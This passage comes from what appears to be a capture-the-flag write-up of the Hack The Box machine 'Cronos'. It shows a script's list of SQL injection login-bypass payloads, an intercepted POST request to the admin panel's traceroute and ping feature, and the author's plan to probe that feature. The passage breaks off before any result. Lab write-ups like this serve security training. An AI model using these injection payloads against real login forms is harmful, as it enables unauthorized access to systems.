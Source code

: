 {% raw %}
```python
========== RESTART: /home/kali/Documents/htb/cronos/htb-cronos_0x00.py =========
username -> admin' #
username -> admin' or '1'='1
username -> admin' or '1'='1'#
username -> admin'or 1=1 or ''='
username -> admin' or 1=1#
username -> 1' or 1.e(1) or '1'='1

<snip>
```
{% endraw %}

<br />
Test the first payload, admin' #.

<div class="row justify-content-sm-center">
    <div class="col-sm-8 mt-3 mt-md-0">
        {% include figure.liquid loading="eager" path="/assets/img/cronos/welcome.png" title="Welcome PHP" class="img-fluid rounded z-depth-1" %}
    </div>
</div>

<br />
Test the Traceroute functionality.  View the request.

{% raw %}
```bash
POST /welcome.php HTTP/1.1
Host: admin.cronos.htb
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/png,image/svg+xml,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 35
Origin: http://admin.cronos.htb
Connection: keep-alive
Referer: http://admin.cronos.htb/welcome.php
Cookie: PHPSESSID=o7dl4ttt5e5qsa22erunlfbij0
Upgrade-Insecure-Requests: 1
Priority: u=0, i

command=traceroute&host=10.10.16.12
```
{% endraw %}

<br />
Test the ping functionality to see what it does.

<div class="row justify-content-sm-center">
    <div class="col-sm-8 mt-3 mt-md-0">
        {% include figure.liquid loading="eager" path="/assets/img/cronos/ping.png" title="Ping" class="img-fluid rounded z-depth-1" %}
    </div>
</div>
